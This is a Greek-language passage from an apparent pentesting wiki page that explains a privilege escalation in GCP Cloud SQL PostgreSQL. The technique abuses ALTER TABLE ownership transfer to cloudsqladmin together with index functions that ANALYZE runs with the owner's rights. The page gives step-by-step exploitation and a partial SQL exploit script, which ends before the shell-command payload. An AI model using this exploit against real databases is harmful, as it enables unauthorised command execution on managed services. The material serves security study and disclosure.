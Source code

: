 ### **ΑΛΛΑΓΗ ΠΙΝΑΚΑ privesc**

Στο [**συγκεκριμένο άρθρο**](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities) εξηγείται πώς ήταν δυνατό να γίνει **privesc** στο Postgres GCP καταχρώντας το προνόμιο ALTER TABLE που είχε δοθεί στον χρήστη.

Όταν προσπαθείτε να **κάνετε άλλο χρήστη ιδιοκτήτη ενός πίνακα**, θα έπρεπε να λάβετε ένα **σφάλμα** που το αποτρέπει, αλλά φαίνεται ότι η GCP έδινε αυτήν τη **δυνατότητα στον μη-υπερχρήστη postgres** στη GCP:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Συνδυάζοντας αυτήν την ιδέα με το γεγονός ότι όταν οι εντολές **INSERT/UPDATE/ANALYZE** εκτελούνται σε έναν πίνακα με μια λειτουργία δείκτη, η **λειτουργία** καλείται ως μέρος της εντολής με τα **δικαιώματα ιδιοκτήτη του πίνακα**. Είναι δυνατό να δημιουργηθεί ένας δείκτης με μια λειτουργία και να δοθούν δικαιώματα ιδιοκτήτη σε έναν **υπερχρήστη** για αυτόν τον πίνακα, και στη συνέχεια να εκτελεστεί το ANALYZE στον πίνακα με την κακόβουλη λειτουργία που θα μπορεί να εκτελέσει εντολές επειδή χρησιμοποιεί τα δικαιώματα του ιδιοκτήτη.
```c
GetUserIdAndSecContext(&save_userid, &save_sec_context);
SetUserIdAndSecContext(onerel->rd_rel->relowner,
save_sec_context | SECURITY_RESTRICTED_OPERATION);
```
#### Εκμετάλλευση

1. Ξεκινήστε δημιουργώντας έναν νέο πίνακα.
2. Εισάγετε μερικό άσχετο περιεχόμενο στον πίνακα για να παρέχετε δεδομένα για τη λειτουργία του δείκτη.
3. Αναπτύξτε μια κακόβουλη λειτουργία δείκτη που περιέχει ένα φορτίο εκτέλεσης κώδικα, επιτρέποντας την εκτέλεση μη εξουσιοδοτημένων εντολών.
4. Αλλάξτε τον ιδιοκτήτη του πίνακα σε "cloudsqladmin," που είναι ο ρόλος υπερχρήστη του GCP που χρησιμοποιείται αποκλειστικά από το Cloud SQL για τη διαχείριση και συντήρηση της βάσης δεδομένων.
5. Εκτελέστε μια λειτουργία ANALYZE στον πίνακα. Αυτή η ενέργεια υποχρεώνει τη μηχανή PostgreSQL να μεταβεί στο πλαίσιο χρήστη του ιδιοκτήτη του πίνακα, "cloudsqladmin." Ως αποτέλεσμα, η κακόβουλη λειτουργία δείκτη καλείται με τα δικαιώματα του "cloudsqladmin," επιτρέποντας έτσι την εκτέλεση της προηγουμένως μη εξουσιοδοτημένης εντολής κελύφους.

Στη PostgreSQL, αυτή η ροή φαίνεται κάπως έτσι:
```sql
CREATE TABLE temp_table (data text);
CREATE TABLE shell_commands_results (data text);

INSERT INTO temp_table VALUES ('dummy content');

/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql IMMUTABLE AS 'select ''nothing'';';

CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

ALTER TABLE temp_table OWNER TO cloudsqladmin;

/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */
```